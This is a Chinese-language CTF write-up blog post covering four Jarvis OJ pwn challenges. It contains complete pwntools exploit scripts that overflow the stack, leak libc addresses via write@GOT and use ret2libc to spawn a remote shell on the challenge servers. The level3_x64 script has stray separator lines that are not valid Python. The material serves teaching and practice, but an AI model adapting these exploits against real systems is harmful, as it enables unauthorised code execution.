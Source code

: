 ```yaml
---
layout: w
title: Jarvis oj
date: 2019-12-12 00:11:54
tags: pwn
---
```

<!-- more -->
# 0x01 level3
该题和CTF-wiki的ret2libc3基本相似，但是用的另一种泄露libc的方法  
首先就是常用套路，先运行看一下，然后检查保护，然后 IDA 看  
![](Image.png)  
![](level3_2.png)  
![](level3_3.png)  
![](level3_4.png)  
很明显在 vul 函数中存在栈溢出漏洞，接下来用 cyclic 测试溢出长度
![](level3_5.png)
![](level3_6.png)  
可以看到溢出长度是140，那么我们看一下有没有关键函数或关键字符串，在此用了elf.symbols，ROPgadget等工具发现并没有system以及/bin/sh字符串，然后想到WIKI中的ret2libc3，但是题目并没有给出libc，那么就泄露libc，我们发现程序中存在write函数，我们用write函数来泄露libc，并使用libc中的system 函数和/bin/sh的字符串  
泄露过程如下:
```python
from pwn import*   
context.log_level='debug'   
p=remote('pwn2.jarvisoj.com',9879)  
#p=process('./level3')  
#p=remote('120.79.1.69',10000)  
elf=ELF('./level3')  
write_plt = elf.plt['write']  
write_got = elf.got['write']   
p.recvuntil("Input:\n")  
p.sendline("a"*140+p32(write_plt)+p32(0xdeadbeef)+p32(1)+p32(write_got)+p32(4))  
``` 

一开始没有加 p.recvuntil("Input:\n")  
导致泄露的地址一直是错误的，错误地址如下：
![](level3_7.png)  
一直找不到原因，后面请教大佬说我的位置找错了，思考并看了一下别的exp，大佬说应该是这个位置
![](level3_8.png)  
于是知道了应该要加上p.recvuntil("Input:\n")  
泄露成功  
![](level3_9.png)  
然后利用Libcsearcher计算偏移以及得到system函数和/bin/sh的地址，因为Libcsearcher也是刚开始用，讲不了很详细，都是百度来的方法，这里要提一点，泄露地址的payload的返回地址要写main函数的地址，否则payload打过去一次就结束了，写main函数的地址目的是为了打完一次再重头来一次。   
直接贴出exp:     
```Python
from pwn import*
from LibcSearcher import*

context.log_level='debug'
p=remote('pwn2.jarvisoj.com',9879)
p=process('./level3')
#p=remote('node3.buuoj.cn',28111)
elf=ELF('./level3')

write_plt = elf.plt['write']
write_got = elf.got['write']
main_addr = elf.symbols['main']
p.recvuntil("Input:\n")
p.sendline("a"*140+p32(write_plt)+p32(main_addr)+p32(0x1)+p32(write_got)+p32(0x4))

write_addr = u32(p.recv(4))
print hex(write_addr)

libc = LibcSearcher('write', write_addr)
offset = write_addr - libc.dump('write')
system_addr = offset + libc.dump('system')
binsh_addr = offset + libc.dump('str_bin_sh')

payload2 = 'a' * 140 + p32(system_addr) + p32(0xdeadbeef) + p32(binsh_addr)

p.send(payload2)
p.interactive()
```    
# 0x02 level3_x64  
和上一题最大的不同就是寄存器传参   
```Python
# coding=utf-8
from pwn import*
#p=process("./level3_x64")
p=remote("pwn2.jarvisoj.com",9883)
context.log_level = 'debug'
elf=ELF("./level3_x64")
libc = ELF("libc-2.19.so")
pop_rdi_ret = 0x00000000004006b3
pop_rsi_r15_ret = 0x00000000004006b1
write_plt = elf.plt['write'] 
write_got = elf.got['write']
vul = elf.symbols['vulnerable_function']
padding = "\x00"*136
==========================leak addr===============================
payload1 = padding + p64(pop_rdi_ret) + p64(1) + p64(pop_rsi_r15_ret) + p64(write_got) + p64(0) + p64(write_plt) + p64(vul)   #这里因为没有单独的pop_rsi_ret,所以要在r15中放一个垃圾值
p.recvuntil("Input:\n")
p.send(payload1)
write_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
log.success("write_addr = " + hex(write_addr))
offset = write_addr - libc.symbols['write']
sys_addr = offset + libc.symbols['system']
log.success("system_addr = " + hex(sys_addr))
binsh_addr = offset + libc.search("/bin/sh").next()
log.success("binsh_addr = " + hex(binsh_addr))
==========================getshell================================
payload2 = padding + p64(pop_rdi_ret) + p64(binsh_addr) + p64(sys_addr)
p.sendline(payload2)
p.interactive()
```  

# 0x03 test_your_memory  

这题就是直接溢出然后覆盖返回地址为程序中已有的system函数和参数"cat flag"，控制程序指向system("cat flag")，很奇怪的就是不知道为什么返回地址一定要是程序里有的地址，填0x12345678或者0xdeadbeef这样的地址就会直接EOF..
```Python
from pwn import*
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
#p=remote("pwn2.jarvisoj.com",9876)
elf = ELF("./memory")
p=process("./memory")

ret = 0x080483de
padding = "a"*0x13 + "aaaa"
payload = padding + p32(0x80485BD) + p32(ret) + p32(0x80487e0)
p.send(payload)

p.interactive()
```  

# 0x04 level4   
  
```python   
#!/usr/bin/env python2
#conding=utf-8
from pwn import *
from LibcSearcher import *
p=remote("pwn2.jarvisoj.com",9880)
context.log_level = 'debug'
#p=process("./level4")
elf = ELF("./level4")

write_plt = elf.plt["write"]
write_got = elf.got["write"]
main_addr = elf.symbols["main"]
payload = "a"*140 + p32(write_plt)+p32(main_addr)+p32(0x1)+p32(write_got)+p32(0x4)
p.send(payload)

write_addr = u32(p.recv(4))
print hex(write_addr)
libc = LibcSearcher('write',write_addr)
offset = write_addr - libc.dump('write')
print hex(offset)
sys_addr = offset + libc.dump('system')
print hex(sys_addr)
binsh_addr = offset + libc.dump("str_bin_sh")
print hex(binsh_addr)

payload2 = "a"*140 + p32(sys_addr) + p32(0xdeadbeef) + p32(binsh_addr)
p.send(payload2)
p.interactive()
```  
